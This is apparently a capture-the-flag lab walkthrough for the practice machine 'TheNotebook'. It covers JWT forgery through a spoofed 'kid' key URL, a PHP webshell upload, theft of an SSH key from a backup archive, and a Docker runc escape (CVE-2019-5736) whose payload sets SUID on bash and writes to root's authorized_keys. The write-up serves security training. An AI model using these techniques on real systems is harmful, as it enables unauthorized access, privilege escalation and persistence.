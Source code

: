 # TheNotebook

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.71.99  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 09:27 EDT
Nmap scan report for 10.129.71.99
Host is up (0.0081s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

### Notebook --> JWT Spoof

The website is a notebook website:

<figure><img src="../../../.gitbook/assets/image (2636).png" alt=""><figcaption></figcaption></figure>

We can create a new user because we don't have any credentials. Once created, we can login and view our notes, of which we have none:

<figure><img src="../../../.gitbook/assets/image (2886).png" alt=""><figcaption></figcaption></figure>

When the requests are viewed in Burp, we can see that it uses a JWT token and a `uuid` parameter:

{% code overflow="wrap" %}
```http
GET / HTTP/1.1
Host: 10.129.71.99
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.71.99/70e7d57d-8987-4075-9a28-2c9075219c68/notes
Connection: close
Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InRlc3QxMjMiLCJlbWFpbCI6InRlc3RAd2Vic2l0ZS5jb20iLCJhZG1pbl9jYXAiOjB9.HOnHZHkqdPXbWn4LJrSgF4-DX0UXztaiQxefbsp0DteIvaQUtOMkAGgTvvZex0QU63vcrnXwQRTj5MLfMp1JyFHUWIS5J9slqqhXGsNNSOBQHmHlvptTLa8mvJCZJJAqymKCxGswa41Nu7hb20W3Ksi7iQSg9JcZoy9WeFV9lbEhBiSrler_H1LiSzkF-x4vegERnJiGkZ4hK_2LjVObeeY3ZCQcJWjCH3Cuo2YG1rVas4h0YBinnSq9ANvUsovpLolovsOUP4TNDPzIlccMjmhU0R_yhh5WItg0uG_PiQaACryT3G2_PYw5PRj_Dj5COrHtzYaT2NES2q54WecSJOWfD7RUW6o-yB4SFC_lJVqfqE3DljujJwGcOf8SP43kAf1z_VLGKuUkHceOsvU60aEDZDcgnJB4LTuIjqunIVzZ22lnlfHDGe1zJza8bpUVk-2xDDmqj1F3bBsCMQOXnmMmffBpSFPjsTyBwZM2F3kNEmopZiHr1S1UzeMolW98gzIrwGM8jx1lMOV76SNlK6vGP-q_UoFOg8F07aB6ClPqtbw83cyQZLn2kME40XDBzZgNgbzXmZXfnBg83mkWis9KQhOL8FJ3MPha7h0tfSnsiUXV2s7vATWXlrydpQL6gsWsuWt-cn6CQGEPAX0svar_9K8Pyd08NDJJpNdVfmg; uuid=70e7d57d-8987-4075-9a28-2c9075219c68
Upgrade-Insecure-Requests: 1
```
{% endcode %}

We can take a look at this cookie within jwt.io and see that it uses a private key hosted on the server.&#x20;

<figure><img src="../../../.gitbook/assets/image (2234).png" alt=""><figcaption></figcaption></figure>

The token is spoofable, similar to another machine Unicode. We can generate our own private key using `openssl` and use it to spoof the token by replacing the `kid` parameter with a link hosting the key instead. Also, we can change `admin_cap` to be 1.&#x20;

```bash
openssl genrsa -out priv.key 2048
```

<figure><img src="../../../.gitbook/assets/image (2323).png" alt=""><figcaption></figcaption></figure>

When we use this token after refreshing the page, we can see an Admin Panel present.&#x20;

<figure><img src="../../../.gitbook/assets/image (1161).png" alt=""><figcaption></figcaption></figure>

Then, we can view the notes of the administrator through Admin Panel > View Notes.

<figure><img src="../../../.gitbook/assets/image (3930).png" alt=""><figcaption></figcaption></figure>

Conveniently, the first note reveals that PHP files are left executable on this website.

<figure><img src="../../../.gitbook/assets/image (3326).png" alt=""><figcaption></figcaption></figure>

The admin panel also has an upload file feature:

<figure><img src="../../../.gitbook/assets/image (2856).png" alt=""><figcaption></figcaption></figure>

I uploaded a basic PHP webshell, and the page shows this:

<figure><img src="../../../.gitbook/assets/image (1130).png" alt=""><figcaption></figcaption></figure>

Using this, we can get RCE:

<figure><img src="../../../.gitbook/assets/image (3131).png" alt=""><figcaption></figcaption></figure>

And subsequently, a reverse shell.

<figure><img src="../../../.gitbook/assets/image (918).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We can't grab the user flag yet as `noah` owns it.

### Home.tar.gz

I viewed the `nginx` configuration files:

```
www-data@thenotebook:/$ cat /etc/nginx/sites-available/default
server {
        listen 80 default_server;
        root /var/www/html;
        server_name _;
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/var/run/php/php7.2-fpm.sock;
        }
        location / {
                proxy_pass http://127.0.0.1:8080/;
        }
}
```

There was nothing much there that was new. Within the `/var/backups` file, there was an extra file present:

```
www-data@thenotebook:/var/backups$ ls
apt.extended_states.0     apt.extended_states.2.gz  home.tar.gz
apt.extended_states.1.gz  apt.extended_states.3.gz
```

We can copy this folder to `/dev/shm` and open it there since we can't create new files within `/var/backups`.

```
www-data@thenotebook:/var/backups$ cp home.tar.gz /dev/shm
www-data@thenotebook:/var/backups$ cd /dev/shm
www-data@thenotebook:/dev/shm$ ls
home.tar.gz
www-data@thenotebook:/dev/shm$ tar -xvf home.tar.gz 
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
```

We can grab the `id_rsa` file and `ssh` in as `noah`.&#x20;

### Sudo Privileges

We can check our `sudo` privileges:

```
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
noah@thenotebook:~$ docker --version
Docker version 18.06.0-ce, build 0ffa825
```

It seems that we can run docker as `root`. Googling for exploits pertaining to this version reveals a CVE that allows for RCE. This is caused by an outdated `runc` binary that is run from the container.&#x20;

{% embed url="https://github.com/Frichetten/CVE-2019-5736-PoC" %}

Download this repositroy, and we can change the payload run to something else:

{% code overflow="wrap" %}
```bash
var payload = "#!/bin/bash \n chmod u+s /bin/bash && echo 'KEY' >> /root/.ssh/authorized_keys"
```
{% endcode %}

Then we can run `go build main.go` to build it. Then, following the PoC, we can create a Docker container using the `sudo` command allowed.

```bash
sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
```

Afterwards, within the container, run the `main` binary and it will hang:

```
root@0f4c2517af40:/opt/webapp# ./main 
[+] Overwritten /bin/sh successfully
```

On a second Window, we need to run the `sudo` command one more time, and on the Docker container, it would execute properly:

{% code overflow="wrap" %}
```
root@0f4c2517af40:/opt/webapp# ./main 
[+] Overwritten /bin/sh successfully
[+] Found the PID: 3292
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc00036e060}
[+] The command executed is#!/bin/bash 
 chmod u+s /bin/bash && echo 'KEY' >> /root/.ssh/authorized_keys
```
{% endcode %}

Then, we can just `ssh` into `root`.&#x20;

<figure><img src="../../../.gitbook/assets/image (1358).png" alt=""><figcaption></figcaption></figure>

Rooted!
